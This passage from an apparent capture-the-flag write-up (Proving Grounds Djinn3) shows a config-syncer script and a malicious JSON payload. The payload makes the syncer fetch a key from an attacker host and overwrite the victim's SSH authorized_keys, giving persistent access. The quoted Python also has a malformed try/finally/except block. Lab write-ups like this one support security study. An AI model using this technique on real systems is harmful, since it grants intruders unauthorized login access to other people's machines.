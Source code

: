 ```py
    read_config = staticmethod(read_config)
    
    def set_config_path():
        '''Set the config path
        '''
        files = glob('/home/saint/*.json')
        other_files = glob('/tmp/*.json')
        files = files + other_files
        
        try:
            if len(files) > 2:
                files = files[:2]
            file1 = os.path.basename(files[0]).split('.')
            file2 = os.path.basename(files[1]).split('.')
            if file1[-2] == 'config' and file2[-2] == 'config':
                a = dt.strptime(file1[0], '%d-%m-%Y')
                b = dt.strptime(file2[0], '%d-%m-%Y')
            if b < a:
                filename = files[0]
            else:
                filename = files[1]
        finally:
            pass
        except Exception:
            sys.exit(1)
        

        return filename

    set_config_path = staticmethod(set_config_path)
```

Create malicious json file and move the file to `/tmp` folder in the attacking machine.

## Exploitation

### Malicious json file creation

```json
{
"URL" : "http://192.168.45.190:8000/authorized_keys",
"Output" : "/home/saint/.ssh/authorized_keys"
}
```

Copy the json file to `/tmp` folder in the attacking machine and wait for the syncer to read and write our authorized SSH key to saint user `.ssh` folder.

**authorized_keys overwritten**

![img](/assets/images/CTF/Proving_Grounds/Djinn3/authz_key.png)
